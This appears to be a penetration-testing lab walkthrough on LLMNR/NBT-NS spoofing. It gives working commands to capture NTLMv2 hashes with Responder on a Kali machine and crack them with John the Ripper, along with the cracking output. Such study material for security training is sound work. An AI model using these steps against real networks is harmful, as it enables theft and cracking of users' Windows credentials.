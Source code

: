 # LLMNR/NBT-NS
Link-Local Multicast Name Resolution (LLMNR) and Netbios Name Service (NBT-NS) are two components of Microsoft Windows machines.  LLMNR was introduced in Windows Vista and is the successor to NBT-NS.

When a DNS name server request fails, Link-Local Multicast Name Resolution(LLMNR) and Net-BIOS Name Service(NBT-NS) is used by Windows machines as a fallback. If the DNS name still remains unresolved, the windows performs an unauthenticated UDP broadcast to the whole network. Any masquerading machine, claiming to be the server then sends a response and capture the target's credentials during the authentication process.

**LLMNR/NBT-NS Spoofing attack** is a classical internal network attack that still works, due to low awareness and the fact it's enabled by default in Windows.

![LLMNR spoofing](https://www.verifyit.nl/wp/wp-content/uploads/2016/12/llmnr_poison1.jpg)

LLMNR and NBT-NS are enabled by default in Windows and can be used to extract the passwords hashes from a user. There is a good chance of acquiring the user credentials on a internal network.

By listening for LLMNR/NBT-NS broadcast requests, it is possible for an attacker to spoof itself as the server and send a response claiming to be the legitimate server. After the victim system accepts the connection, it is possible to gain the victim's user-credentials by using a tool like Responder.py.

### Objectives
* Perform LLMNR/NBT-NS spoofing attack.

### Requesites
* Windows 10 virtual machine.
* Kali Linux virtual machine.

## Using Responder
![responder banner](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/15fe651f34614ca182b0be697245a83c76e73a2b/responder-banner.png)

1. Launch and login to Windows 10 machine. (Make sure to select a common password that 'non-tech' people will use - i.e **qwerty**).
2. Go to Kali Linux and open the Terminal window.
3. Start Responder to listen the network interface. (You can type `responder -h` to see the options available). 

`responder -I eth0`

4. Now go back to the Windows 10 machine and let's assume that you want to access a shared network drive connected in your network. Launch **run** and type:

`\\ceh-tools`

![run](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/15fe651f34614ca182b0be697245a83c76e73a2b/run-cehtools.png)


## Obtaining and Cracking the Hashes
On the Kali Machine, Responder starts capturing the access logs of Windows 10 machine as shown below:

![responder response](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/b5a69b422beda8c658e0610af852f006af262dcf/responder-1.png)

5. Go to **/usr/share/responder/logs/** and open the last file created by responder:

**SMB-NTLMv2-SSP-10.0.2.39.txt**
![responder log](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/3e6cd9f2c6e3f1d27820e459b0d2625aa19cb229/responder-log-3.png "Responder Log file")

These are hashes of the logged in user collected by responder. Now let's crack these hashes.

To crack the passwords we will use [JohnTheRipper](https://www.openwall.com/john/).

6. Open a new Terminal window and type `john` and the path to the responder logs + the name of your log file (note the file name may differ from your lab environment):

`john /usr/share/responder/logs/SMB-NTLMv2-SSP-10.0.2.39.txt`

```
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
qwerty           (Dummy)
qwerty           (Dummy)
qwerty           (Dummy)
qwerty           (Dummy)
4g 0:00:00:00 DONE 2/3 (2019-12-11 13:51) 26.66g/s 357713p/s 378293c/s 378293C/s 123456..random
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

The cracked passwords hashes of the Dummy user has shown in the output above.
